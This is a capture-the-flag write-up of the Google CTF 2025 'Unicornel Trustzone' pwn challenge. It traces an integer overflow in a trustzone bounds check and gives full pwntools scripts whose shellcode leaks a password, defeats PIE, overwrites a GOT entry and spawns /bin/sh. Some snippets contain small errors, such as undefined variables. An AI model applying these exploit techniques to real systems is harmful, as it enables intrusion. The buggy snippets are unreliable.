



+++ title = "Unicornel-Trustzone" date = 2025-08-7 author = ["anirud"] +++

# Pwn - Unicornel Trustzone

Unicornel was broken, on that we will concur
But I've removed all of the bugs now, I am quite sure

## Analysis

The handout comes with:
`chal.c` - source file
`chal` - binary
`Documentation` - Overview of emulator
`syscall.c` - system call functions
`unicornel.h` - header file for unicorn emulator

Go through the Documentation thoroughly to understand how the emulator works, how processes are managed, how the processes interact with the host system and each other. We notice that a trustzone system is followed, where a section of memory requires elevated privilege to work with. We also see that there are three given trustzones `create_map_shared_x86_64` `map_shared_x86_64` `memprot_x86_64`

Let's see what chal.c contains
In summary, it just contains a detailed implementation of the emulator, and the system calls. When the emulator starts, it takes in the unicornelf header, and the code. The emulated processes interact with the emulator through system calls. And the program handles the way the emulator interacts with the host. 

On analysing the key functions in syscalls.c
We see that a trustzone mechanism is implemented that is checked using `TRUSTED_SYSCALL`, that ensures that only trusted callers can call certain system calls, and access the trustzone's memory.

`create_trustzone` -- creates a trustzone where trusted system calls can be executed by `trustzone_invoke`.
`trustzone_invoke` -- temporarily sets `trustzone_mode` to be true, and executes code in the trustzone. 


### How is the trustzone protected from normal processes?

`trustzone_mode` ensures only trusted processes can execute functions like `validate_handle`, `map_address`, `memprot`, etc, that are protected by the `TRUSTED_SYSCALL` macro.
`create_trustzone` adds a hook at the trustzone that intercepts when normal processes try to access a trustzone.
A trustzone is protected by `r-x` permissions that doesn't allow normal processes to writing in a trustzone. 

```c
//The trustzone is allowed to access trusted memory, no one else is.
void trusted_read(uc_engine *uc, uc_mem_type type, uint64_t address, int size, int64_t value, void* user_data) {
    struct process* current = user_data;
    fprintf(stderr,"TRUSTED READ: %p %p\n",address,current->trustzone);
    if(!current->trustzone_mode) {
        //Untrusted code tried to access trusted memory, abort the malicious process
        printf("Unprivileged access to trustzone attempted! Killing process\n");
        uc_emu_stop(uc);
    }
}
long create_trustzone(struct process* current) {
    if(current->trusted_zone_hook)
        return -1;
    uc_engine* uc = current->uc;
    unsigned long addr = ARG_REGR(current,1);
    unsigned long filename_user = ARG_REGR(current,2);
    char filename[128] = { 0 };
    uc_err err = strncpy_user(current,filename,filename_user,sizeof(filename));
    if(err != UC_ERR_OK) {
        printf("Failed to copy string from address %p\n",filename_user);
        return -1;
    }
    for(unsigned i = 0; i < sizeof(filename); i++) {
        if(filename[i] == '.' || filename[i] == '/') {
            filename[i] = '_';
        }
    }
    int fd = open(filename,O_RDONLY);
    if(fd == -1) {
        printf("Failed to open trustzone %s %m\n",filename);
        return errno;
    }
    off_t size = lseek(fd,0,SEEK_END);
    err = uc_mem_map(uc,addr,PAGE_ALIGN(size),UC_PROT_READ | UC_PROT_EXEC);
    if(err != UC_ERR_OK)
    {
      printf("Failed on uc_mem_map() with error %u\n",err);
      close(fd);
      return -1;
    }
    err = uc_hook_add(uc,&current->trusted_zone_hook,UC_HOOK_MEM_READ,trusted_read,current,addr,addr+PAGE_ALIGN(size));
    if(err != UC_ERR_OK) {
      printf("Failed on uc_hook_add() with error %u\n",err);
      close(fd);
      uc_mem_unmap(uc,addr,PAGE_ALIGN(size));
      return -1; 
    }
    char* file = calloc(size,1);
    lseek(fd,0,SEEK_SET);
    read(fd,file,size);
    uc_mem_write(uc,addr,file,size);
    current->trustzone = addr;
    current->tz_size = size;
    close(fd);
    fprintf(stderr,"Trustzone allocated at %p %lu\n",addr,PAGE_ALIGN(size));
    return 0;
}
```

This section shows how the syscall creates a trustzone by loading code from a file into memory, and setting `r-x` permissions. The syscall adds a `UC_HOOK_MEM_READ` which basically ensures that when `trusted_read` tries to read a trustzone, the hook ensure `trustzone_mode` is `true`. However keep in mind that the trustzone never implements a HOOK for memory writes, knowing that the trustzone isn't given write permissions. 

```c
struct shared_buffer shared_buffers[MAX_PROCESSES] = { 0 };
long create_shared(struct process* current) {
    // TRUSTED_SYSCALL;

    pthread_mutex_lock(&task_lock);
    unsigned long length = ARG_REGR(current,1);
    if(length > 0x10000 || !length || length & 0xFFF)
    {
        pthread_mutex_unlock(&task_lock);
        return -1;
    }
    //Find an empty shared buffer handle
    unsigned long handle;
    for(handle = 0; handle < MAX_PROCESSES; handle++) {
        if(!shared_buffers[handle].refs)
            break;
    }
    if(handle == MAX_PROCESSES) {
        pthread_mutex_unlock(&task_lock);
        return -2;
    }
    void* buffer = calloc(1,length);
    if(!buffer) {
        pthread_mutex_unlock(&task_lock);
        return -3;
    }
    shared_buffers[handle].refs = 1;
    shared_buffers[handle].buffer = buffer;
    shared_buffers[handle].length = length;
    pthread_mutex_unlock(&task_lock);
    return handle;
}
```

This function is important because it creates a shared buffer between processes, and returns a handle. When the handle is validated using `validate_handle` a pointer to the shared buffer is returned. 

```c
long validate_handle(struct process* current) {
    TRUSTED_SYSCALL;

    pthread_mutex_lock(&task_lock);
    unsigned long handle = ARG_REGR(current,1);
    unsigned long length = ARG_REGR(current,2);
    if(handle >= MAX_PROCESSES || !shared_buffers[handle].refs || shared_buffers[handle].length < length) {
        pthread_mutex_unlock(&task_lock);
        return 0;
    }
    pthread_mutex_unlock(&task_lock);
    return (long) shared_buffers[handle].buffer;
}
```

This is crucial considering it allows us access to physical memory addresses on the host. 

```c
long memprot(struct process* current) {
    TRUSTED_SYSCALL;
    unsigned long addr = ARG_REGR(current,1);
    unsigned long length = ARG_REGR(current,2);
    unsigned long prot = ARG_REGR(current,3);
    return uc_mem_protect(current->uc,addr,length,prot);
}
```

Remember when we noticed how there wasn't any hook preventing normal users from writing into a trustzone. `memprot` can be called by the `memprot_x86_64` trustzone. So we CAN write to a trustzone and execute malicious code by `trustzone_invoke`. Except we somehow need to fetch the password that is protecting the trustzone from being accessed. 


```c
long confirm_password(struct process* current) {
    TRUSTED_SYSCALL;
    if(!password[0]) {
        int password_fd = open("password",O_RDONLY);
        if(password_fd == -1)
        {
            printf("open password failed: %m\n");
            abort();
        }
        read(password_fd,password,16);
        close(password_fd);
    }
    char user_password[sizeof(password)];
    uc_err e = strncpy_user(current,user_password,ARG_REGR(current,1),sizeof(user_password));
    if(e != UC_ERR_OK) {
        return 1;
    }
    return !!strncmp(user_password,password,sizeof(user_password));
}
```

This system call opens a file called password and checks if the password in the file is valid. But if you remember `create_trustzone` loads a file into the trustzone, essentially loading the password into memory. If only there could be a way for us to read and print the data inside a trustzone. 

Let's try to summarize our understandings of what we've uncovered until now:
1. There are trustzones that don't allow you to read without privilege, but writes are possible, if you can change the memory protection permissions. 
2. The above requires you to know the password.
3. There is a way to load the password into memory, but we need a way to be able to access data in a trustzone. 

## Vulnerability

```c
bool overlaps_tz(struct process* current,long src, unsigned n) {
    return current->trusted_zone_hook && !(src + n <= current->trustzone || current->trustzone + PAGE_ALIGN(current->tz_size) <= src);
}
uc_err safe_read(struct process* current, char* dst, long src, size_t n) {
    if(overlaps_tz(current,src,n)) TRUSTED_SYSCALL;
    return uc_mem_read(current->uc,src,dst,n);
}
long unicornel_write(struct process* current) {
    unsigned long pointer = ARG_REGR(current,1);
    unsigned long length =  ARG_REGR(current,2);
    char* buffer = malloc(length);
    if(!buffer) return -1;
    uc_err err = safe_read(current,buffer,pointer,length);
    if(err != UC_ERR_OK) {
        free(buffer);
        return -1;
    }
    long ret = write(current->outfd,buffer,length);
    free(buffer);
    return ret;
}
```

`unicornel_write` acts as a bridge to output from the emulated process to the host. It employs a `safe_read` function that calls `overlaps_tz`. There is a major overflow vulnerability in the way `overlaps_tz` checks if the source address + size of address is less than the starting of a trustzone. If you just map the source address to `0xffffffffff0000` and set n to `0x10000`, it overflows and passes the check. This critically allows us to write data from a trustzone out to the host. 

## Exploit

We can first use the `unicornel_write` bug to extract the password that we will be loading onto a trustzone. 
We can also retreive the files containing the code for the other trustzones. Let's leak `memprot_x86_64` since we will eventually need it to change permissions. 

```python
from pwn import *
import unicorn 
import os 

context.arch = "amd64"

code = asm(
        r'''
        .intel_syntax noprefix
        
        /* leak password */
        mov r12, 0xFFFFFFFFFFFFF000
        mov rbx, r12
        lea rcx, [rip+password] #password is pointer to the string password to name trustzone
        mov rax, 8 #call create_trustzone with file named password
        int 0x80

        mov rbx, r12
        mov rcx, 0x10 #to write 0x10 bytes from unicornel_write
        mov rax, 1 #call unicornel_write
        int 0x80

        mov rax, 9
        int 0x80
        
        /* leak memprot_x86_64 */
        mov r12, 0xFFFFFFFFFFFFF000
        mov rbx, r12
        lea rcx, [rip+memprot_x86_64] 
        mov rax, 8 
        int 0x80

        mov rbx, r12
        mov rcx, 0x10 #to write 0x10 bytes from unicornel_write
        mov rax, 1 #call unicornel_write
        int 0x80
        
        mov rax, 9
        int 0x80
        
        password:
            .ascii "password\0"
        memprot_x86_64:
            .ascii "memprot_x86_64\0"
        ''')

p = remote("unicornel-tz.2025.ctfcompetition.com", 1337)

p.recvuntil(b' solve ')
p.recvuntil(b' solve ')
to_solve = p.recvline().strip().decode()
print(f"{to_solve}")

sol = os.popen(f"python3 kctf-pow.py solve {to_solve} 2>/dev/null").read() #kctf-pow solver
print(sol)
p.sendlineafter(b"Solution? ", sol.encode())

p.recvuntil(b' unicornel!')

# Given format of header for the emulator
header = flat(
    p32(unicorn.UC_ARCH_X86),
    p32(unicorn.UC_MODE_64),
    p64(0x1000), p64(0x1000),   
    b'\0' * 3 * 16,             
    p16(len(code)),             
    p8(1)
).ljust(80, b'\0')

p.sendline(b'')
p.recvuntil(b'DATA_START')
p.send(header)
p.recvuntil(b'CODE_START')
p.send(code)

p.recvuntil(b'pid 0\n')
pwd = p.recv(0x10)
print(pwd) #leak the password
memprot_x86_64 = io.recv(0x100).strip(b'\x00')

# copy the values into files for local testing
with open('password', 'wb') as f:
    f.write(password)
with open('memprot_x86_64', 'wb') as f:
    f.write(memprot_x86_64)

```
`password = sup3r_s3cure_sj\0`
Since we've crossed our barrier of now being able to access `memprot` from the password we just leaked, we can give trustzones write access. So we can now overwrite a custom trustzone with our shellcode that can execute the `validate_handle` syscall. We will use the fact that `validate_handle` returns the address of the element in `shared_buffer`, that we will generate from `create_shared`.

```python
from pwn import *
import unicorn 
import os 

context.arch = "amd64"

code = asm(
        r'''
        .intel_syntax noprefix
        
        /* create a shared buffer and generate handle 0 */
        mov rbx, 0x1000
        mov rax, 3
        int 0x80
        
        /* call create_trustzone memprot_x86_64 with password to change perms to rwx */
        mov rbx, 0x4000
        lea rcx, [rip+memprot_x86_64]
        mov rax, 8
        int 0x80 

        mov rbx, 0x4000     #at vaddress 0x4000
        mov rcx, 0x1000     #of length 0x1000
        mov rdx, 0x7        #rwx
        lea rdi, [rip+password]
        mov rax, 10
        int 0x80

        /* overwrite trustzone to validate_handle and store return pointer at r12 and write */
        mov rdi, 0x4000
        lea rsi, [rip+leak_shared]
        lea rcx, [rip+leak_shared_end]
        sub rcx, rsi
        rep movsb
        mov rax, 10 #call invoke_trustzone with the custom shellcode leak_shared at the created trustzone
        int 0x80

        mov rax, 6
        int 0x80
        
        /* custom code to validate_handle */
        leak_shared:
            xor rbx, rbx
            xor rcx, rcx
            mov rax, 4
            int 0x80 
            mov r12, rax
            
            /* write address of created buffer */
            mov rbx, rax
            mov rax, 2
            int 0x80
        leak_shared_end:

        password:
            .ascii "sup3r_s3cure_sj\0"
        memprot_x86_64:
            .ascii "memprot_x86_64\0"
    
''')

p = remote("unicornel-tz.2025.ctfcompetition.com", 1337)

p.recvuntil(b' solve ')
p.recvuntil(b' solve ')
to_solve = p.recvline().strip().decode()
print(f"{to_solve}")

sol = os.popen(f"python3 kctf-pow.py solve {to_solve} 2>/dev/null").read() #kctf-pow solver
print(sol)
p.sendlineafter(b"Solution? ", sol.encode())

p.recvuntil(b' unicornel!')

# Given format of header for the emulator
header = flat(
    p32(unicorn.UC_ARCH_X86),
    p32(unicorn.UC_MODE_64),
    p64(0x1000), p64(0x1000),         
    b'\0' * 3 * 16,             
    p16(len(code)),              
    p8(1)                        
).ljust(80, b'\0')

p.sendline(b'')
p.recvuntil(b'DATA_START')
p.send(header)
p.recvuntil(b'CODE_START')
p.send(code)

p.recvuntil(b'pid 0\n')

leaked_buf_addr = int(p.recvline().strip().decode())
print(f'leaked addr = {hex(leaked_buf_addr)}')
```

This now gives us the leaked buffer. If you notice, the buffer address always ends with 012bf0, since PIE is enabled. Let's analyse this with gdb.

Running vmmap we can see the memory mapping, and also obtain the PIE base. Also if you notice, the trustzone with modified RWX permission is also there. We need to be able to find this address as well to inject the shellcode for RCE




This is the shellcode to calculate and leak PIE base and RWX base. 

```python
from pwn import *
import unicorn 
import os 

context.arch = "amd64"

code = asm(
r'''
    .intel_syntax noprefix

    /* create shared buffer*/
    mov rbx, 0x1000
    mov rax, 3
    int 0x80 

    /* Call create_trustzone to change perms */
    mov rbx, 0x4000
    lea rcx, [rip + memprot_x86_64]
    mov rax, 8
    int 0x80
    
    mov rbx, 0x4000
    mov rcx, 0x1000
    mov rdx, 0x7
    lea rdi, [rip + password]
    mov rax, 10
    int 0x80

    /* overwrite trustzone to validate_handle and store return pointer at r12 and write */
    mov rdi, 0x4000
    lea rsi, [rip+leak_shared]
    lea rcx, [rip+leak_shared_end]
    sub rcx, rsi
    rep movsb
    mov rax, 10 #call invoke_trustzone with the custom shellcode leak_shared at the created trustzone
    int 0x80

    /* leak PIE base and RWX base address */
    mov rdi, 0x4000
    lea rsi, [rip+leak_pie_rwx]
    lea rcx, [rip+leak_pie_rwx_end]
    sub rcx, rsi
    rep movsb
    mov rax, 10 #call invoke trustzone to execute pie leak instructions
    int 0x80

    mov rax, 0x6
    int 0x80

    leak_shared:
        /* Call validate_handle 0 */
        xor rbx, rbx
        xor rcx, rcx
        mov rax, 4
        int 0x80
        mov r12, rax # store leaked value at r12
        /* Print leak for debugging purposes */
        mov rbx, rax
        mov rax, 0x2
        int 0x80
    leak_shared_end:
    leak_pie_rwx:
        /* Call map_address */
        mov rbx, 0x5000
        mov rcx, 0x2000
        mov rdx, r12 # r12 is shared_buffers[0]
        sub rdx, 0x12bf0 # map to the base of area instead of to the shared_buffers[0]
        mov rax, 5
        int 0x80
        /* Store leaked pie at r11 and leaked rwx at r10 */
        mov rbx, 0x5000
        add rbx, 0x1100
        mov r11, qword ptr [rbx]
        sub r11, 0x785b20 # r11 = PIE BASE
        mov rbx, 0x5000
        add rbx, 0x0b88
        mov r10, qword ptr [rbx]
        sub r10, 0x1c2f # r10 = RWX BASE
        /* Print for debugging purposes */
        mov rbx, r11
        mov rax, 0x2
        int 0x80
        mov rbx, r10
        mov rax, 0x2
        int 0x80
    leak_pie_rwx_end:
    password:
        .ascii "sup3r_s3cure_sj\0"
    memprot_x86_64:
        .ascii "memprot_x86_64\0"''')

p = remote("unicornel-tz.2025.ctfcompetition.com", 1337)

p.recvuntil(b' solve ')
p.recvuntil(b' solve ')
to_solve = p.recvline().strip().decode()
print(f"{to_solve}")

sol = os.popen(f"python3 kctf-pow.py solve {to_solve} 2>/dev/null").read() #kctf-pow solver
print(sol)
p.sendlineafter(b"Solution? ", sol.encode())

p.recvuntil(b' unicornel!')

# Given format of header for the emulator
header = flat(
    p32(unicorn.UC_ARCH_X86),
    p32(unicorn.UC_MODE_64),
    p64(0x1000), p64(0x1000),          
    b'\0' * 3 * 16,              
    p16(len(code)),              
    p8(1)                        
).ljust(80, b'\0')

p.sendline(b'')
p.recvuntil(b'DATA_START')
p.send(header)
p.recvuntil(b'CODE_START')
p.send(code)
p.recvuntil('pid 0\n')

leaked_buf_addr = int(p.recvline().strip().decode())
print(f'{hex(leaked_buf_addr) = }')
leaked_pie_base = int(p.recvline().strip().decode())
print(f'{hex(leaked_pie_base) = }')
leaked_rwx_base = int(p.recvline().strip().decode())
print(f'{hex(leaked_rwx_base) = }')
```


If you remember the binary securities implemented in the beginning, we observed that relocation is set to Partial Relocation Read-Only. That means that this program is susceptible to GOT overwrite. So we can easily overwrite the GOT entry by mapping an address to the calculated GOT position from the known PIE base address. 
Let's try to find the GOT address of write function so that we can gain remote shell access by running `unicornel_write`.

`readelf -r chal | grep write` gives:
{{ img(id="/writeups/GoogleCTF2025/unicornel-trustzone/write-got.png", alt="Alt Text", class="textCenter") }}

The final exploit script is 

```python
from pwn import *
import unicorn 
import os 

context.arch = "amd64"
#context.log_level = 'debug'

code = asm(
r'''
    .intel_syntax noprefix

    /* create shared buffer*/
    mov rbx, 0x1000
    mov rax, 3
    int 0x80 

    /* Call create_trustzone to change perms */
    mov rbx, 0x4000
    lea rcx, [rip + memprot_x86_64]
    mov rax, 8
    int 0x80
    
    mov rbx, 0x4000
    mov rcx, 0x1000
    mov rdx, 0x7
    lea rdi, [rip + password]
    mov rax, 10
    int 0x80

    /* overwrite trustzone to validate_handle and store return pointer at r12 and write */
    mov rdi, 0x4000
    lea rsi, [rip+leak_shared]
    lea rcx, [rip+leak_shared_end]
    sub rcx, rsi
    rep movsb
    mov rax, 10 #call invoke_trustzone with the custom shellcode leak_shared at the created trustzone
    int 0x80

    /* leak PIE base and RWX base address */
    mov rdi, 0x4000
    lea rsi, [rip+leak_pie_rwx]
    lea rcx, [rip+leak_pie_rwx_end]
    sub rcx, rsi
    rep movsb
    mov rax, 10 #call invoke trustzone to execute pie leak instructions
    int 0x80
    
    /* fill trustzone with code for rce and invoke */
    add r10, 0x444400 # We plan to inject shellcode in the rwx+0x44000 area
    mov rdi, 0x4000
    lea rsi, [rip+load_rce]
    lea rcx, [rip+load_rce_end]
    sub rcx, rsi
    rep movsb
    /* invoke trustzone -- r10 = rwx r11 = pie */
    mov rax, 10
    int 0x80

    /* map got to rce code */
    add r11, 0x120c050 # got address for write
    mov rdi, 0x4000
    lea rsi, [rip+load_got]
    lea rcx, [rip+load_got_end]
    sub rcx, rsi
    rep movsb
    /* invoke trustzone that maps 0x8000 to got of write so that we can access it in emulator vspace */
    mov rax, 10
    int 0x80

    /* Spawn shell  */
    mov rbx, 0x8000
    mov rcx, 0x1
    mov rax, 0x1
    int 0x80

    mov rax, 0x6
    int 0x80

    leak_shared:
        /* Call validate_handle 0 */
        xor rbx, rbx
        xor rcx, rcx
        mov rax, 4
        int 0x80
        mov r12, rax # store leaked value at r12
        /* Print leak for debugging purposes */
        mov rbx, rax
        mov rax, 0x2
        int 0x80
    leak_shared_end:
    leak_pie_rwx:
        /* Call map_address */
        mov rbx, 0x5000
        mov rcx, 0x2000
        mov rdx, r12 # r12 is shared_buffers[0]
        sub rdx, 0x12bf0 # map to the base of area instead of to the shared_buffers[0]
        mov rax, 5
        int 0x80
        /* Store leaked pie at r11 and leaked rwx at r10 */
        mov rbx, 0x5000
        add rbx, 0x1100
        mov r11, qword ptr [rbx]
        sub r11, 0x785b20 # r11 = PIE BASE
        mov rbx, 0x5000
        add rbx, 0x0b88
        mov r10, qword ptr [rbx]
        sub r10, 0x1c2f # r10 = RWX BASE
        /* Print for debugging purposes */
        mov rbx, r11
        mov rax, 0x2
        int 0x80
        mov rbx, r10
        mov rax, 0x2
        int 0x80
    leak_pie_rwx_end:
    load_rce:
        /* map_address of 0x7000 to rwx address of choice where we will write rce code*/
        mov rbx, 0x7000
        mov rcx, 0x1000
        mov rdx, r10 # r10 = rwx address
        mov rax, 5
        int 0x80
        /* Fill shellcode to rwx which is mapped at 0x7000 */
        mov rdi, 0x7000
        lea rsi, [rip+get_shell]
        lea rcx, [rip+get_shell_end]
        sub rcx, rsi
        rep movsb
        get_shell:
            lea rdi, [rip+binsh_str]
            xor rsi, rsi
            xor rdx, rdx
            mov rax, 0x3b
            syscall
            binsh_str:
                .ascii "/bin/sh\0"
        get_shell_end:
    load_rce_end:
    load_got:
         /* map_address of 0x8000 to got address */
        mov rbx, 0x8000
        mov rcx, 0x1000
        mov rdx, r11 # r11 = write GOT address
        mov rax, 5
        int 0x80
        /* overwrite 0x8000 which contains the got entry for write with r10 -> addr to shellcode */
        mov qword ptr [rbx], r10
    load_got_end:
    password:
        .ascii "sup3r_s3cure_sj\0"
    memprot_x86_64:
        .ascii "memprot_x86_64\0"
''')
p = remote("unicornel-tz.2025.ctfcompetition.com", 1337)

p.recvuntil(b' solve ')
p.recvuntil(b' solve ')
to_solve = p.recvline().strip().decode()
print(f"{to_solve}")

sol = os.popen(f"python3 kctf-pow.py solve {to_solve} 2>/dev/null").read() #kctf-pow solver
print(sol)
p.sendlineafter(b"Solution? ", sol.encode())

p.recvuntil(b' unicornel!')

# Given format of header for the emulator
header = flat(
    p32(unicorn.UC_ARCH_X86),
    p32(unicorn.UC_MODE_64),
    p64(0x1000), p64(0x1000),          
    b'\0' * 3 * 16,              
    p16(len(code)),              
    p8(1)                        
).ljust(80, b'\0')

p.sendline(b'')
p.recvuntil(b'DATA_START')
p.send(header)
p.recvuntil(b'CODE_START')
p.send(code)
p.recvuntil('pid 0\n')

leaked_buf_addr = int(p.recvline().strip().decode())
print(f'{hex(leaked_buf_addr) = }')
leaked_pie_base = int(p.recvline().strip().decode())
print(f'{hex(leaked_pie_base) = }')
leaked_rwx_base = int(p.recvline().strip().decode())
print(f'{hex(leaked_rwx_base) = }')

p.interactive()
```


